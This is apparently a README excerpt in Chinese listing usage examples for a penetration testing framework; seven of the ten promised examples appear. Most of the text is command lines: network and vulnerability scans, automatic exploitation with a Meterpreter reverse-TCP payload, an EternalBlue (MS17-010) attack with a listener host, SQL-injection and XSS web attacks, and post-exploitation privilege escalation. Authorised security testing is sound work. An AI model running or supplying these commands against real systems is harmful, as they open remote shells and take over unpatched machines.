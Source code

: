 ## 🎯 10個實用滲透測試利用示例

以下是基於本框架的10個實際可執行的滲透測試利用示例，涵蓋從網絡發現到完整攻擊鏈的各個階段：

### 🔍 網絡掃描與發現類

#### 1. 快速網絡發現
```bash
# 發現內網中的活跃主機和開放端口
python main.py scan -t 192.168.1.0/24 --scan-type quick
```
**用途**: 快速識別網絡中的活跃設備，適用於初始偵察階段

#### 2. 深度漏洞掃描
```bash
# 對特定目標進行全面的漏洞識別
python main.py scan -t 192.168.1.100 --scan-type comprehensive --vuln-scan
```
**用途**: 深入分析目標系統的安全狀況，識別潛在攻擊向量

#### 3. 服務指紋識別
```bash
# 識別目標系統的服務版本和操作系統
python main.py scan -t 192.168.1.1-50 --service-detection --os-detection
```
**用途**: 收集目標系統詳細信息，為後續攻擊做準備

### 💥 漏洞利用與攻擊類

#### 4. 自動化漏洞利用
```bash
# 自動選擇合適的漏洞利用模塊攻擊目標
python main.py exploit -t 192.168.1.100 --auto --payload windows/meterpreter/reverse_tcp
```
**用途**: 智能匹配並執行最適合的漏洞利用，提高成功率

#### 5. SMB漏洞利用 (永恆之藍)
```bash
# 利用永恆之藍漏洞獲取系統權限
python main.py exploit -t 192.168.1.100 --module ms17_010_eternalblue --lhost 192.168.1.50
```
**用途**: 針對未修補的Windows系統執行經典的SMB漏洞攻擊

#### 6. Web應用漏洞利用
```bash
# 對Web應用進行SQL注入和XSS攻擊
python main.py exploit -t http://192.168.1.100:8080 --web-exploit --sqli --xss
```
**用途**: 自動化Web應用安全測試，發現常見Web漏洞

### 🎯 後滲透與數據收集類

#### 7. 權限提升
```bash
# 在已獲得的會話中進行權限提升和信息收集
python main.py post --session-id 1 --privilege-escalation --gather-system-info
```
**用途**: 在獲得初始訪問後，嘗試提升權限並收集系統信息
